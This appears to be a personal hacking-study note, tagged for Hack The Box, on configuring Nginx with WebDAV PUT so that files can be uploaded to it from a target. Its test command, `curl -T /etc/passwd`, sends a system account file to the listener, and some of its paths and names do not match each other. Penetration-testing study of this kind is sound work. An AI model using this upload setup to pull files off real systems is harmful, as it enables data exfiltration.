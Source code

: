 ```yaml
---
title:  "Nginx"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languages:
created: 2022-07-11
---
```

Used for transferring files to Apache.

## Create Directory to Handle Uploaded Files
```bash
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

## Change the Owner to www-data
```bash
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

## Create Nginx Configuration File
In `/etc/nginx/sites-available/upload.conf`:

```bash
server {
    listen 9001;

    location /SecretUploadDirectory/ {
        root /var/www/uploads;
        dav_methods PUT;
    }
}
```

## Symlink our Site to the sites-enabled Directory
```bash
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx//sites-enabled/
```

## Start Nginx
```bash
sudo systemctl restart nginx.service
```

Error messages can be found in: `/var/log/nginx/error.log`.

For example:

```bash
ss -lnpt | grep '80'
```

```bash
ps -ef | grep '2811'
```

Could output something like `python -m websockify 80 localhost:5901 -D` which means there is a module already listening to port 80. To get around we can get rid of the default Nginx configuration:

```bash
sudo rm /etc/nginx/sites-enabled/default
```

And now we test:

```bash
curl -T /etc/passwd
```

```bash
tail -1 /var/www/upload/SecretUploadDirectory/users.txt
```

Then we can navigate to `http://localhost/SecretUploadDirectory`.